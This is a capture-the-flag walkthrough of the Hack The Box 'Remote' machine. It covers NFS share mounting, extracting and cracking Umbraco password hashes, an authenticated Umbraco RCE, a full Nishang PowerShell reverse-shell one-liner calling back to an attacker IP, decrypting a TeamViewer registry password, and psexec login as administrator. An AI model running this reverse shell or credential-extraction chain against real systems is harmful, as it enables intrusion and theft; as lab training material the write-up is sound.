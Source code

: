 # Box 



![](img/Pasted%20image%2020210819045145.png)

https://www.hackthebox.eu/home/machines/profile/234

# Profile

 <img src="http://www.hackthebox.eu/badge/image/296177" alt="Hack The Box"> 

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Reconnaissance](#reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents 

## Reconnaissance

Let's start with nmap :

```bash
nmap -sV -sC -Pn --top-ports 1000 -oN scan_10.10.10.180 10.10.10.180
```

![](img/Pasted%20image%2020210819061943.png)

Let's enumerate with `ffuf` :

```
ffuf -u http://remote.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

![](img/Pasted%20image%2020210819061815.png)

We found a `umbraco` directory which is interesting. 

![](img/Pasted%20image%2020210819061904.png)

There is a login page, I tried different SQL injection but failed. 

From there i was blocked so I check the differents port that we saw on the `nmap` scan. 

Let's what's inside the nfs service.

```sh
showmount -e remote.htb
```

![](img/Pasted%20image%2020210819062135.png)

We can mount this directory to read it.

```sh
mount -t nfs -o vers=2  remote.htb:site_backups nfs -o nolock 
```

I copied the whole directory in local and removed the mounted dir.

![](img/Pasted%20image%2020210819062318.png)

There are a lot of files. 

![](img/Pasted%20image%2020210819062342.png)

In this directory we can see a `.sdf` file which a database file. We can use `strings` to try to read it.

![](img/Pasted%20image%2020210819062430.png)

```
Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
@{pv
qpkaj
```

Too much information but we can keep the important one. 

There are two users, called `admin@htb.local` and `ssmith@htb.local`

it seems we also have their hashes.

| User | Hash | Hash mode |
| ---- |  ----- | ------  |
| admin@htb.local | b8be16afba8c314ad33d812f22a04991b90e2aaa | SHA-1 |
| ssmith@htb.local | jxDUCcruzN8rSRlqnfmvqw\=\=AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts | HMACSHA256 |

Let's focus on the admin first. 

I use hashcat to crack the password.

```
hashcat.exe -a 0 -m 100 ../hashes.txt rockyou.txt -o out.txt
```

```
b8be16afba8c314ad33d812f22a04991b90e2aaa:baconandcheese
```

So now we have valid credentials. Let's log in the website.

| User | Hash | 
| ---- |  ----- | 
| admin@htb.local | baconandcheese | 

![](img/Pasted%20image%2020210819072156.png)

Earlier when  I was searching for an exploited I found a RCE who needed to be authenticated.

## Exploitation

```
searchsploit umbracos
```

![](img/Pasted%20image%2020210819063522.png)

Let's try then, I set up a webserver on my machine running on port 4444.

![](img/Pasted%20image%2020210819071118.png)

It is working ! Now we can get a shell.

I used the nishang one liner to get my powershell. 
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.13',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Then I converted it in base64 to be easier for me to use it in a double quote.
Like this 
```
echo "<replace_text>"  | iconv -t utf-16le | base64 -w 0
```

![](img/Pasted%20image%2020210819071959.png)

![](img/Pasted%20image%2020210819072100.png)

## Post-Exploitation
### User

It seems that we have no user because our flag is in public.
![](img/Pasted%20image%2020210819072717.png)

To root.

### Root

Using tasklist, we can see an interesting file running : 

![](img/Pasted%20image%2020210819081939.png)

On metasploit there is a module to get the passwords but let's do it manually.

![](img/Pasted%20image%2020210819082055.png)


For out curren version of teamviewver 7, the keys to find the password are located  in 
`HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7`

There are a lot of item that we can see using `get-itemproperty -path .`

![](img/Pasted%20image%2020210819082302.png)

Let's get the whole key 

```
(get-itemproperty -path .).SecurityPasswordAES :


255 155 28 115 214 107 206 49 172 65 62 174 19 27 70 79 88 47 108 226 209 225 243 218 126 141 55 107 38 57 78 91 
```



I found this script to decrypt the password : 
https://gist.github.com/rishdang/442d355180e5c69e0fcb73fecd05d7e0

Replace the key by yours... 

```py
ciphertext = bytes([255, 155, 28, 115, 214, 107, 206, 49, 172, 65, 62, 174, 
                    19, 27, 70, 79, 88, 47, 108, 226, 209, 225, 243, 218, 
                    126, 141, 55, 107, 38, 57, 78, 91])
key = binascii.unhexlify("0602000000a400005253413100040000")
iv = binascii.unhexlify("0100010067244F436E6762F25EA8D704")


raw_un = AESCipher(key).decrypt(iv, ciphertext)

password = raw_un.decode('utf-16')
print("Decrypted password is : ",password)
```

![](img/Pasted%20image%2020210819084021.png)


Let's try to log in as administrator now ! 

```
psexec.py 'administrator:!R3m0te!@10.10.10.180' 
```

![](img/Pasted%20image%2020210819085641.png)

Rooted.